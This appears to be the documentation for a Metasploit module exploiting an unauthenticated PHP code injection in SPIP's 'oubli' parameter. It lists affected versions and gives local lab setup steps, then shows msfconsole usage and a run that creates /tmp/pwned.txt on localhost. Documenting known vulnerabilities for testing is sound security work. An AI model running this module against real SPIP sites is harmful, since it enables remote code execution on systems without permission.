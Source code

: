 ## Vulnerable Application

This module exploits a PHP code injection in SPIP. The vulnerability exists in
the `oubli` parameter and allows an unauthenticated user to execute arbitrary
commands with web user privileges. Branches 3.2, 4.0, 4.1 and 4.2 are
concerned. Vulnerable versions are <3.2.18, <4.0.10, <4.1.18 and <4.2.1.

The module's `check` method attempts to obtain the SPIP version via a simple HTTP GET request to `/spip.php`
page and fingerprints it either via the `generator` meta tag, or by the
`Composed-By` header.

This module has been successfully tested against SPIP version 4.0.0.

## Setup

On Ubuntu 20.04, download a vulnerable instance of SPIP:

```
wget https://files.spip.net/spip/archives/spip-v4.2.0.zip
```

Unzip it to a specific folder:

```
mkdir spip-site 
cp spip-v4.2.0.zip spip-site/ 
cd spip-site / 
unzip spip-v4.2.0.zip
```

Install php and the necessary extensions:

```
sudo apt install -y php-xml php-zip php-sqlite3
```

Serve the application (while in the newly created spip-site directory):

```
php -S 127.0.0.1:8000
```

Navigate to the following URL, select `sqlite` for the database, and complete the installation:

```
http://127.0.0.1:8000/ecrire/
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/unix/webapp/spip_rce_form`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options
### TARGETURI
The base path to PIP. The default value is `/`.

## Targets

### 0 (Linux Dropper)

This uses a Linux dropper to execute code.

### 1 (Unix Command)

This executes a Unix command.

## Scenarios
### SPIP 4.0.0 - Linux target
```

Module options (exploit/unix/webapp/spip_rce_form):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to SPIP application
   VHOST                       no        HTTP server virtual host


Payload options (php/exec):

   Name  Current Setting       Required  Description
   ----  ---------------       --------  -----------
   CMD   touch /tmp/pwned.txt  yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/spip_rce_form) > run

[*] Got anti-csrf token: fDBVRjMENBhztAcYFvRr+49sl+fSbkKWDtcOmHtIo0Ta5iJ1MNTCax9uYvLZYlhtD77tZ0TcgnhyRwE=
[*] 127.0.0.1:8080 - Attempting to exploit...
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/spip_rce_form) > ls -l /tmp/pwned.txt
[*] exec: ls -l /tmp/pwned.txt

-rw-rw-rw- 1 jvoisin jvoisin 0 Feb 28 20:45 /tmp/pwned.txt
msf6 exploit(unix/webapp/spip_rce_form) > 
```

